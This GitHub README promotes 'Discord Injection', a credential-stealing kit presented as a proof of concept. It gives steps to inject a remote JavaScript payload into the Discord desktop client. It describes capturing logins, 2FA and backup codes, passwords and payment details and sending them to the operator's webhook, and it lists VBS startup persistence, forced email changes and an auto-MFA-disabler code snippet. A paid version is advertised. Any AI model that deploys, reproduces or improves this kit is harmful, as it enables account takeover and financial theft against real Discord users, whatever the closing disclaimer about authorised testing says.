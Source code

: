 [shield-github-issues]: https://img.shields.io/github/issues/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-license]: https://img.shields.io/github/license/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-stars]: https://img.shields.io/github/stars/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-forks]: https://img.shields.io/github/forks/k4itrun/discord-injection?style=for-the-badge&color=c267ff

[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

[![][shield-github-issues]][github-issues-link]
[![][shield-github-license]][github-license-link]
[![][shield-github-stars]][github-stars-link]
[![][shield-github-forks]][github-forks-link]<br/>

# [Discord Injection][github-link]

Proof of Concept (PoC) for Intercepting HTTP Requests in Discord

</div>

## Overview

**Discord Injection** is a proof-of-concept tool designed to demonstrate the interception of HTTP requests within the Discord application. This PoC highlights potential vulnerabilities by capturing various critical actions and interactions within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [DiscordTokenGrabber](https://github.com/k4itrun/DiscordTokenGrabber). It's a free tool with extensive capabilities.


## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Block devices & Code QR
![x](./assets/img/devices.png)
![x](./assets/img/qr.png)
### Forced mail change
![x](./assets/img/mail.png)
### Edit user
![x](./assets/img/profile.png)
### Account Information
![x](./assets/img/token.png)
### System Information
![x](./assets/img/system.png)


### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Note

Use this PoC responsibly and only on systems and applications where you have explicit permission to test. Unauthorized use may violate terms of service and legal agreements.

<br/>

<div align="center">
<p>
	Copyright &copy; 2023-2024 | Made by <a href="https://github.com/k4itrun" target="_blank">@k4itrun</a>
</p>

[![][shield-github-license]][github-license-link]
</div>